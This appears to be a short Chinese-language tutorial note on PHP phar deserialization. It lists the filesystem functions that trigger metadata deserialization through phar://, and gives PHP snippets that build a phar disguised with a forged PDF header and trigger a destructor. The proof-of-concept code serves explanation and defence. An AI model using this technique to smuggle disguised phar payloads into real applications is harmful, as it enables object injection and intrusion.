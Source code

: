 >生成phar文件要先将ini中的`phar.readonly`设置为Off

1. 文件标识,必须以`__HALT_COMPILER();?>`结尾,前面的内容没有限制,因此可以对文件头进行伪造

2. `meta-data`被序列化存储,通过`phar://`协议解析时会将其进行反序列化

受影响的函数

```
+--------------------+----------------+---------------+--------------------+-------------------+------------------------+
| fileatime          | filectime      | file_exists   | file_get_contents  | touch             | get_meta_tags          |
+--------------------+----------------+---------------+--------------------+-------------------+------------------------+
| file_put_contents  | file           | filegroup     | fopen              | hash_file         | get_headers            |
+--------------------+----------------+---------------+--------------------+-------------------+------------------------+
| fileinode          | filemtime      | fileowner     | fileperms          | md5_file          | getimagesize           |
+--------------------+----------------+---------------+--------------------+-------------------+------------------------+
| is_dir             | is_executable  | is_file       | is_link            | sha1_file         | getimagesizefromstring |
+--------------------+----------------+---------------+--------------------+-------------------+------------------------+
| is_readable        | is_writable    | is_writeable  | parse_ini_file     | hash_update_file  | imageloadfont          |
+--------------------+----------------+---------------+--------------------+-------------------+------------------------+
| copy               | unlink         | stat          | readfile           | hash_hmac_file    | exif_imagetype         |
+--------------------+----------------+---------------+--------------------+-------------------+------------------------+
```

```php
<?php
    class Demo{
        function __destruct(){
            echo $this->name."\n";
        }
    }
    $filename="phar://asdf.phar/test.txt";
    file_exists($filename);#执行反序列化,输出asdfgh
?>
```

对文件头进行伪造,可以将phar文件伪装成pdf或gif等文件

```php
<?php
    class Demo{}
    @unlink("asdf.phar");
    $phar=new Phar("asdf.phar");//后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("%PDF-1.6<?php __HALT_COMPILER(); ?>");//设置pdf的文件头
    $test=new Demo();
    $test->name='asdfgh';
    $phar->setMetadata($test);
    $phar->addFromString("test.txt","asdfghjkl");
    $phar->stopBuffering();
?>
```
